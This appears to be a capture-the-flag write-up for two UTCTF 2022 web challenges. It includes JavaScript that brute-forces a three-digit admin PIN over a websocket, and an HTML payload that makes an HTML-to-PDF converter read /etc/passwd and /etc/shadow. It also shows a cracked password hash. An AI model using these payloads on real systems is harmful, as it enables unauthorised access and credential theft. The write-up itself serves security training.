




# UTCTF 2022 - Web 
## 1- Websockets? 
<center></img></center>

#### about : 
- Type: Web 
- Level: easy 
- Website : http://web1.utctf.live:8651
</br>

in login page **/internale/login** i found theis code js for login : 
```js
document.querySelector("input[type=submit]").addEventListener("click", checkPassword);

function checkPassword(evt) {
	evt.preventDefault();
	const socket = new WebSocket("ws://" + window.location.host + "/internal/ws")
	socket.addEventListener('message', (event) => {
		if (event.data == "begin") {
			socket.send("begin");
			socket.send("user " + document.querySelector("input[name=username]").value)
			socket.send("pass " + document.querySelector("input[name=password]").value)
		} else if (event.data == "baduser") {
			document.querySelector(".error").innerHTML = "Unknown user";
			socket.close()
		} else if (event.data == "badpass") {
			document.querySelector(".error").innerHTML = "Incorrect PIN";
			socket.close()
		} else if (event.data.startsWith("session ")) {
			document.cookie = "flask-session=" + event.data.replace("session ", "") + ";";
			socket.send("goodbye")
			socket.close()
			window.location = "/internal/user";
		} else {
			document.querySelector(".error").innerHTML = "Unknown error";
			socket.close()
		} 
	})
}
```
and a comment in the source code 
```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```
so i tried a bruteforce on 3 digits in the user admin : 
here is the code (same code just tweaks on console)
```js
function get_pwd(){
    for (let i = 0 ; i < 10  ; i++) {
    for (let j = 0 ; j < 10  ; j++) {
    for (let k = 0 ; k < 10  ; k++) {
    const socket = new WebSocket("ws://" + "web1.utctf.live:8651" + "/internal/ws")
    socket.addEventListener('message', (event) => {
        let pss = i.toString() + k.toString() + j.toString();
        if (event.data == "begin") {
            socket.send("begin");
            socket.send("user " + "admin")
            socket.send("pass " + pss);
        } else if (event.data == "baduser") {
            console.log("Bad user : " + "admin")
            socket.close()
        } else if (event.data == "badpass") {
            console.log("Trying : " + pss);
            socket.close()
        } else if (event.data.startsWith("session ")) {
            console.log("found : " + pss);
            return  True;
        } else {
            console.log("Some error")
            socket.close()
        } 
    })
}}}
}
```
result : 

found : **907** 

so i loged in and got the flag : **utflag{w3bsock3ts}**

## 2- HTML2PDF
<center></img></center>

#### about : 
- Type: Web 
- Level: meduim 
- Website : http://web2.utctf.live:9854

The page gets inputs and convert it from HTML to PDF
<center></img></center>

so i need to get local file inclusion inside the html so it can return it after the pdf is created i tried : 
```html
<h1 id='test2'>a</h1>
<script>x = new XMLHttpRequest();
x.open('GET','file:///etc/passwd',false);
x.send();
document.getElementById('test2').innerHTML= x.responseText;
</script>
```
basically what this do is fetch the file (internal) using javascript XMLHttpRequest class to get contenu before convert the page to pdf 

it worked. so now we have a basic LFI , so i chacked what privileges do i have , so i tried **/etc/shadow** and it worked , Nice 

<center></img></center>

So , that WeakPasswordAdmin reveals itself , let's bruteforce with hashcat , i got 

```
$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:sunshine
```
i loged in and got the flag : **utflag{b1g_r3d_t3am_m0v35_0ut_h3r3}**